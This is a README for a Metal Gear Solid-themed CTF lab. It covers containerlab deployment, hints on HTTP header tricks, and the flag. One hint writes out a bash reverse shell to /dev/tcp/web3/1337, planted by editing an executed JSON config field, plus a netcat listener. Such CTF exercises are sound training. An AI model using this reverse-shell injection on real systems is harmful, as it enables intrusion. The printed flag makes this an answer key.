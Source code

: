 # Metal Gear Solid CTF Challenge

## Difficulty rating 
![stars](https://starrating-beta.vercel.app/3/) *100 points*
\
Requires solid HTTP fundamentals, bash/netcat familiarity, header manipulation, log parsing, and basic reverse shell crafting. Also, the hints are quite vague

### **Description**
An infiltration-themed web and network CTF challenge where participants navigate a network to uncover a patriots passkey. Exploit HTTP, the shell and misconfigured requests to retrieve hints and find the flag.
Requires understanding of HTTP headers, web requests, log analysis, base64 encoding, reverse shells, and  TCP networking + tools like curl, nmap, and netcat.
\
\
**Catagory:**
Web Exploitation / Network Services

### **How to run**

#### Requirements
- [docker](https://www.docker.com/)  > 28.1.1
- [containerlabs](https://containerlab.dev/) > 0.68.0

In the projects root directory, run:
```
sudo containerlab deploy --topo topology.yml
```
to destroy:
```
sudo containerlab destroy --topo topology.yml
```

<br>

> [!NOTE]
> It may take a while to load and you may recieve 503 errors for the first 20 seconds depending on your internet and pc

### Hints
<details>
<summary>Hint 1: first curls</summary>
<br>
Curl each webserver individually. Correct the typo in S3cr3t/paslyword to secret/password. Find a way to show the response headers in curl when you curl with `Accept: application/secret`
</details>

<details>
<summary>Hint 2: after you've done the web3 challenge</summary>

Combine everything together, /top/secret/password?condition=trust with  `Accept: application/secret`. This is valid on any webserver
</details>

<details>
<summary>Hint 3: once ssh'd in</summary>
<br>
find / -name "*json" 2> /dev/null. The update property has echo in its string, suggesting its executing it. Use a reverse shell and net cat to establish connectiion
</details>

<details>
<summary>Hint 3: continued</summary>
<br>
bash -i >& /dev/tcp/web3/1337 0>&1 then after saving the file: nc -lvnp 1337 
</details>

<details>
<summary>Flag:</summary>
<br>
flag{PATRIOT_PASS} 
</details>

![image](https://github.com/user-attachments/assets/3d1260d3-cf7c-4ffc-a3d2-5f73fcc32ac4)
